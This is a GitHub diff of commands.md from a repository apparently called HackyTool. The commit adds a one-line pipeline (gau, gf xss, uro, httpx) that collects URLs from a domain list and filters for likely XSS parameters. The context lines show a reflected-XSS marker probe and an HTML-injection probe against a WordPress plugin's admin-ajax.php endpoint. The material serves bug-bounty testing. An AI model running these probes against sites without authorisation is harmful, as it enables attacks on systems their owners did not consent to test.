

Before and after one commit to Fekerineamar/HackyTool, a Markdown page: commands.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/commands.md
+++ b/commands.md
@@ -11,6 +11,9 @@
 
     cat urls.txt | go run ParamsReflect.go
     cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200
+
+   ### oneLine:
+       cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt
 
 ## wordpressXss:
     cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200
```
